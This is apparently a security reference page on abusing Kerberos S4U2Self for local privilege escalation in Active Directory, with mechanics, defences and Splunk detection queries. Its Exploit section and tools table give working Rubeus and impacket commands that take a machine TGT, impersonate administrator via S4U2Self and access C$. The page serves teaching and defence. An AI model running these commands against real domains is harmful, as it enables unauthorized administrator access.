

# S4U2Self Abuse

Local privilege escalation through service-for-user-to-self.

**MITRE ATT&CK:** [T1558](https://attack.mitre.org/techniques/T1558/) Steal or Forge Kerberos Tickets

S4U2Self abuse exploits the fact that any computer account can request a service ticket to itself
on behalf of any domain user -- including Domain Admins. The resulting ticket contains a
**legitimate PAC** with the impersonated user's real group memberships. When the service reads
this PAC and builds a Windows access token, the token has the impersonated user's privileges.
This enables local privilege escalation without any delegation configuration.

For the protocol mechanics of S4U2Self, see [S4U Extensions](../../protocol/s4u.md).

---

## How It Works

### The S4U2Self Primitive

Per [MS-SFU &sect;1.3.1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13),
S4U2Self "allows a service to obtain a service ticket to itself on behalf of a user", and the
account needs a registered SPN to be the target of that ticket (without one the KDC returns
`KDC_ERR_MUST_USE_USER2USER`,
[MS-KILE &sect;3.3.5.7](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/2e5dcf34-4b51-44a0-b45a-277ed616ca39)).
So any service with an SPN can use S4U2Self to request a service ticket
to itself on behalf of another user. The KDC looks up the specified user in Active Directory,
builds a PAC with that user's real group memberships, and returns a service ticket encrypted with
the requesting service's key.

This is a **normal, intended feature** of Kerberos. S4U2Self exists for protocol transition --
when a user authenticates via NTLM, forms-based auth, or certificates, and the service needs a
Kerberos ticket to make authorization decisions or delegate the user's identity.

### Why Computer Accounts Can Do This

Every domain-joined computer has a computer account with SPNs (`HOST/<hostname>`,
`RestrictedKrbHost/<hostname>`) registered at join time. These SPNs satisfy the S4U2Self
requirement. No additional delegation configuration is needed.

### Microsoft Virtual Accounts

On Windows, several built-in service identities authenticate to the network (and to the KDC)
as the computer account:

| Identity | Example | Authenticates As |
|----------|---------|------------------|
| `NT AUTHORITY\NETWORK SERVICE` | IIS application pools, Windows services | Computer account |
| `NT SERVICE\<servicename>` | `NT SERVICE\MSSQLSERVER`, `NT SERVICE\W3SVC` | Computer account |
| `defaultapppool` | IIS default application pool | Computer account |
| Virtual service accounts | Any `NT SERVICE\*` account | Computer account |

If an attacker achieves code execution as any of these identities on a domain-joined machine,
they can use S4U2Self to request a ticket as Domain Admin to the machine itself.

### The Attack



1. **Obtain a TGT for the computer account** -- if running as a virtual account, use Rubeus
   `tgtdeleg` to obtain the machine's TGT from the existing Kerberos session. Alternatively,
   if the computer account's credentials are known, request the TGT directly.

2. **S4U2Self** -- request a service ticket to the machine itself on behalf of a high-privilege
   user (e.g., `administrator`). The KDC returns a ticket with the administrator's real PAC.

3. **Use the ticket locally** -- present the ticket to local services. The local service reads
   the PAC and grants access based on the administrator's group memberships.

### What the Ticket Looks Like

The S4U2Self ticket is a **legitimate service ticket** issued by the real KDC with a real PAC.
It is **not** a forged ticket. The PAC signatures are valid. The group memberships are accurate.
This makes it significantly stealthier than a [Silver Ticket](../forgery/silver-ticket.md), which
has a fabricated PAC with an invalid KDC signature.

### FORWARDABLE Flag and Delegation

For **local privilege escalation**, the FORWARDABLE flag is irrelevant -- the ticket is used
locally, not forwarded to another service.

Whether the ticket can be passed on through S4U2Proxy depends on that flag. Per MS-SFU
&sect;3.2.5.1.2 the KDC clears FORWARDABLE on an S4U2Self ticket when the requesting service has
constrained delegation configured without protocol transition, or when the impersonated user
is marked "sensitive and cannot be delegated" or is a member of Protected Users. Such a ticket
is still valid to the requesting service itself, which is what this technique uses. Classic
constrained delegation has always required a forwardable evidence ticket, so it cannot be
passed on that way.

For RBCD the specification does not give one answer. The KDC rules in
[MS-SFU &sect;3.2.5.2.3](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/dd1b47f9-580c-4c4e-8f34-4485b9728331)
say that when the evidence ticket "is not set to forwardable" the KDC MUST return
`KRB-ERR-BADOPTION` with `STATUS_ACCOUNT_RESTRICTION`, a rule tied to the CVE-2020-16996 fix
that Microsoft's guidance says is enforced by default from the March 9, 2021 updates. The
client rules in
[MS-SFU &sect;3.1.5.2.1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/ddb2cafd-1f01-4834-b52a-d4a5b34cd960)
still list "a nonforwardable S4U2self-generated user's service ticket for a nonsensitive user"
as evidence a service may send. The two sections agree that a non-forwardable ticket for a
**sensitive** user (marked as not delegatable, which Protected Users membership implies) is
not acceptable evidence; they differ about an ordinary user. This site has not tested which
rule a current domain controller applies. See the box "RBCD and the forwardable flag" under
[FORWARDABLE Flag](../../protocol/s4u.md#forwardable-flag).

### Service Name Substitution

The `-altservice` flag (in impacket's `getST.py` and Rubeus) allows requesting a ticket for one
service class and rewriting the `sname` to another. Since `sname` is not protected by the PAC
signature, an attacker can change `HOST/WEB01` to `CIFS/WEB01` or `HTTP/WEB01` to access
different services on the same machine.

---

## Defend

### Credential Guard

Credential Guard protects TGTs held in LSASS: Microsoft lists "Kerberos TGT extraction" among
the things that stop working when it is enabled, and says it "doesn't provide the TGT session
key to applications". It does not protect service tickets. Do not treat it as closing this
technique on its own.

!!! info "Rubeus `tgtdeleg` does not read LSASS memory"
    The `tgtdeleg` trick obtains a usable TGT through the Kerberos API by requesting a service
    ticket for a service with unconstrained delegation, which makes the client produce a
    forwarded TGT. It therefore does not depend on dumping LSASS. Microsoft documents that when
    Credential Guard is enabled "Kerberos doesn't allow unconstrained Kerberos delegation"
    ([How Credential Guard works](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/how-it-works));
    whether that stops `tgtdeleg` for a computer account's own TGT has not been tested on this
    site. If no unconstrained delegation targets exist in the domain, `tgtdeleg` fails.

### Restrict Running Account Privileges

Minimize the number of services running as computer accounts or virtual accounts. Where possible,
run them under a group Managed Service Account (gMSA) with limited group memberships rather than
relying on the computer account identity. A gMSA keeps the service off the computer account
without introducing a human-set password that can be [Kerberoasted](../roasting/kerberoasting.md).

### Protect High-Value Accounts

Add Domain Admins and other sensitive accounts to the **Protected Users** group or set the
**"Account is sensitive and cannot be delegated"** flag. While these controls are designed for
delegation scenarios, they also affect S4U2Self: the resulting ticket will not have the
FORWARDABLE flag, limiting its use in delegation chains (though local access still works).

### Keep Domain Controllers Patched { #patch-for-cve-2022-26923-and-related-vulnerabilities }

Keep domain controllers patched. The fixes that touch S4U processing are CVE-2020-17049
([KB4598347](https://support.microsoft.com/en-us/topic/managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049-569d60b7-3267-e2b0-7d9b-e46d770332ab),
the ticket signature, enforced from the July 13, 2021 updates), CVE-2020-16996 (non-forwardable
tickets and RBCD, enforced by default from the March 9, 2021 updates), and CVE-2021-42287
([KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041),
the `PAC_REQUESTOR` check). There is nothing left to switch on for the last one: its enforcement
has been mandatory since the October 11, 2022 updates, which no longer read the
`PacRequestorEnforcement` registry value. None of these removes the technique on this page,
because S4U2Self is working as designed.

---

## Detect

### S4U2Self Activity for High-Privilege Users

The request to look for is a computer account asking for a service ticket to itself. Event 4769
(service ticket request) does not label S4U2Self, and two fields that look useful are not:

- `Transited Services` is documented as the "list of SPNs which were requested if constrained
  Kerberos delegation was used". That is S4U2Proxy. This technique stops at S4U2Self and never
  performs S4U2Proxy, so a filter on that field returns nothing for it.
- `Account Name` is "the user name of the account that requested the ticket", which here is the
  computer account. The documented fields include none for the user being impersonated, so a
  filter on `administrator` does not match either.

What the documented fields do show is the shape of the request: the requesting account and the
service account are the same computer account.

```text
index=security EventCode=4769 TargetUserName="*$@*"
| eval requester=lower(mvindex(split(TargetUserName,"@"),0))
| where requester=lower(ServiceName)
| stats count, values(IpAddress) as sources by ServiceName
```

This is a baseline query, not an alert. A service asking for a ticket to itself is also what
legitimate protocol transition looks like, so establish which computers do it routinely and
investigate the ones that start. Whether the impersonated user was privileged cannot be read
from this event; look for it in the logon events on the host itself. The field behavior here is
taken from Microsoft's event
documentation and has not been captured in this site's lab. Event 4769 requires the **Audit
Kerberos Service Ticket Operations** subcategory on domain controllers (see
[Kerberos Auditing Policies](../../security/group-policy.md#kerberos-auditing-policies)).

### Unexpected Computer Account TGT Requests

Event 4768 (TGT request) for computer accounts from unexpected sources. If a computer account
requests a TGT from a process other than the normal Kerberos client, this may indicate
`tgtdeleg` or direct TGT request by an attacker:

```text
index=security EventCode=4768 TargetUserName="*$"
| where NOT match(IpAddress, "expected_machine_ip_pattern")
```

### Behavioral Indicators

| Signal | Description |
|---|---|
| S4U2Self from non-delegating accounts | Computer accounts requesting tickets on behalf of Domain Admins when no delegation is configured |
| Privilege escalation on the host | Sudden admin-level access from a service identity that previously had limited access |
| Service ticket for local machine | Event 4769 where the service SPN matches the requesting machine's own hostname (the query above; it needs a baseline of which machines do this normally) |

---

## Exploit

### 1. Obtain the Computer Account's TGT

**From a virtual account context (Rubeus `tgtdeleg`):**

```powershell
# Running as NETWORK SERVICE or a virtual account
Rubeus.exe tgtdeleg /nowrap
```

This retrieves a usable TGT for the computer account by exploiting the Kerberos API delegation
mechanism.

**If computer account credentials are known:**

```bash
# From Linux with impacket
getTGT.py CORP.LOCAL/WEB01$ -hashes :<nt_hash>

# From Windows with Rubeus
Rubeus.exe asktgt /user:WEB01$ /rc4:<nt_hash> /nowrap
```

### 2. Request a Service Ticket via S4U2Self

**With impacket (`getST.py -self`):**

```bash title="S4U2Self with sname substitution — impersonate administrator on local CIFS"
export KRB5CCNAME=WEB01.ccache
getST.py -self -impersonate administrator -altservice cifs/WEB01.corp.local \
  -k -no-pass -dc-ip 192.0.2.10 CORP.LOCAL/WEB01$
```

The `-self` flag triggers S4U2Self. The `-impersonate` flag specifies the user to impersonate.
The `-altservice` flag rewrites the `sname` in the resulting ticket.

**With Rubeus:**

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:administrator \
/altservice:cifs/WEB01.corp.local /ticket:<base64_tgt>
```

### 3. Use the Ticket

**On Linux:**

```bash
export KRB5CCNAME=administrator@cifs_WEB01.corp.local@CORP.LOCAL.ccache
smbclient //WEB01.corp.local/C$ -k --no-pass
```

**On Windows:**

```powershell
# Inject the ticket
Rubeus.exe ptt /ticket:<base64_ticket>

# Access local resources as administrator
Get-ChildItem \\WEB01.corp.local\C$
```

---

## Tools

!!! info "kerbwolf does not implement S4U2Self abuse"
    S4U2Self abuse requires the S4U protocol extensions. kerbwolf focuses on the core Kerberos
    authentication exchanges.

| Tool | Command | Notes |
|---|---|---|
| Rubeus | `s4u /self /impersonateuser:administrator /altservice:cifs/host /ticket:<tgt>` | S4U2Self with SPN substitution; chain with `tgtdeleg` for full local privesc |
| Rubeus | `tgtdeleg /nowrap` | Obtain computer account TGT from a virtual account context |
| impacket `getST.py` | `getST.py -self -impersonate administrator -altservice cifs/host -k -no-pass CORP/MACHINE$` | S4U2Self from Linux with ccache output |
| impacket `getTGT.py` | `getTGT.py CORP/MACHINE$ -hashes :<hash>` | Request computer account TGT if credentials are known |
